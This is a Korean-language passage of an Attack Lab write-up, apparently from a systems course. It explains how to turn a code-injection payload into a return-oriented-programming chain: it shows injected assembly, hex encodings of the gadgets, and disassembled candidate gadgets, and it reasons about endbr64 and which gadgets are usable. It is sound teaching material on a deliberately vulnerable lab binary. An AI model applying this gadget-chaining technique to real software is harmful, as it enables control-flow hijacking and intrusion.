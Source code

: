 ```
// phase2.s
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

cookie의 주소를 %rdi로 옮겨주고, return address를 바꿔주고 있다.
여기서 문제가 있는데, 위의 두 명령에 해당하는 gadget을 찾을 확률이 거의 없다는 점이다.
위처럼 특정값을 옮기는 명령은 찾기 어렵지만 `movq %rax, %rdi` 같이 레지스터간 교환은 흔하므로 찾기 쉽다.
다만 이 경우 %rax에 cookie 값이 들어 있어야 한다.
%rax에 cookie 값이 들어 있으려면 mov나 pop을 사용해야 한다.
여기서 mov를 사용한다는 것은 특정값을 사용한다는 의미로 사실상 `movq $0x59b997fa, %rdi`와 다를 것이 없다.
그러므로 `pop %rax`를 사용해서 cookie 값을 전달해야 한다.
결국 우리가 만들어야 하는 코드는 아래와 같다.

```
popq %rax
movq %rax, %rdi
```

이제 attacklab.pdf의 Figure3에서 해당 명령의 기계어 코드를 찾아보자.
popq %rax는 58이고, movq %rax, %rdi는 48 89 c7이다.

48 89 c7이 포함된 명령은 아래와 같다.

```
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3                   	retq

000000000000002a <setval_237>:
  2a:	f3 0f 1e fa          	endbr64
  2e:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  34:	c3                   	retq

000000000000004b <setval_426>:
  4b:	f3 0f 1e fa          	endbr64
  4f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  55:	c3
```

항상 첫 번째 명령이 endbr64인 것을 볼 수 있는데, 이는 jump나 call이 발생했을 때 사용하는 보호 기법이다.
jump나 call 이후에 해당 명령이 없으면 잘못된 명령으로 봐서 오류를 일으킨다.
이는 ROP의 gadget으로 jump나 call을 막은 것이다.
그 외의 경우에는 NOP으로 처리되므로 함수에서 볼 일은 없다.
이 때문에 우리가 gadget을 점프나 호출로 쓰지 않는 것이다.
그래서 우리는 return address를 사용해서 진행한다.

여기서 적절한 것은 addval_273과 setval_426이다.
우리가 필요한 명령은 48 89 c7와 c3이다.
그 사이에 다른 명령이 들어가도 되지만, 우리 코드에 영향이 없는 것만 필요하다.
그렇기 때문에 48 89 c7 c3이나 48 89 c7 90 c3은 가능하다.
왜냐하면 90은 nop 인스트럭션으로 프로그램 카운터를 1증가시키는데, 우리 코드와 아무런 연관이 없다.
반면 뒤에 c7이 오는 것은 다른 명령으로 바뀔 수도 있다.
그러므로 setval_237은 선택할 수 없다.
